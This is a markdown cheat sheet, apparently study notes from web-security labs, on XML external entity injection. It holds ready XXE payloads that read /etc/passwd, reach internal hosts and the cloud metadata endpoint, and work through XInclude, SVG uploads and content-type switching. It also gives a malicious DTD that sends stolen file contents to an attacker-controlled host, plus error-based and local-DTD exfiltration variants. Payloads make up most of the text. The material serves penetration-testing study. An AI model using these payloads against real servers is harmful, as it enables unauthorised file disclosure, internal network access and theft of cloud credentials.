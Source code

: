 # XML external entity injection
## File read
To exploit XXE we need to:
* Create or change DOCTYPE that defines external entity
* Edit a data which is returned back in app's response in order to use defined entity
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
Change it to:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
We define external entity `xxe` which contains /etc/passwd file and then pass this entity into application response  

## XXE to SSRF
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```
We can try to access EC@ metadata endpoint with this attack (http://169.254.169.254/latest/meta-data/)

## Blind XXE
We can use XInclude when we don't contol entire XML document and can't create or modify DOCTYPE entity
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### XXE SSRF
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

### Input validation bypass
One way of bypassing input restriction is using xml parameter entities. Such entities could be mentioned only inside of DTD (doctype).
Syntax:
```
<!ENTITY % myparameterentity "my parameter entity value" >
```
Here we declare `myparameterentity` with some value and then we can mention it like this:
```
%myparameterentity;
```
Example of attack with XML parameter entity:
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

### OAST XXE data exfiltration
To exploit blind XXE, attacker must host some webserver and upload on it malicious XXE entity:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
 This DTD carries out the following steps:

* Defines an XML parameter entity called `file`, containing the contents of the /etc/passwd file.
* Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `exfiltrate`. The `exfiltrate` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the file entity within the URL query string.
* Uses the `eval` entity, which causes the dynamic declaration of the exfiltrate entity to be performed.
* Uses the `exfiltrate` entity, so that its value is evaluated by requesting the specified URL.

This file with malicious entities attacker must host on some url such as
```
http://web-attacker.com/malicious.dtd
```
And finalyy attacker must send XXE payload to a target:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

### EXfiltrating data via errors 
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
This malicious DTD must be placed on webserver controlled by hacker. Attack scenario is same as in previous section.
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0ab800b5040218e6807fd99d013300dd.exploit-server.net/exploit"> %xxe;]>
```

In such case we can get contents of existing file (/etc/passwd) from error which arises because of requesting unexisting file  
In such case error will look like:
```
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

### Repurposing a local DTD
We can redefine some entity in .dtd file on local system and receive error-based output of interesting file
```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
Here we are referring to docbookx.dtd file and redefine ISOamso entity



## XXE via file upload
We can upload malicious SVG or DOC file containing XXE.
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

## XXE via modified content-type
We can modify content-type of POST requests in order to put some XML request in palce of original
For example we can change this:
```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
To this:
```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
If application tolerates such input and parsews it, we possibly could be able to access hidden XXE attack.

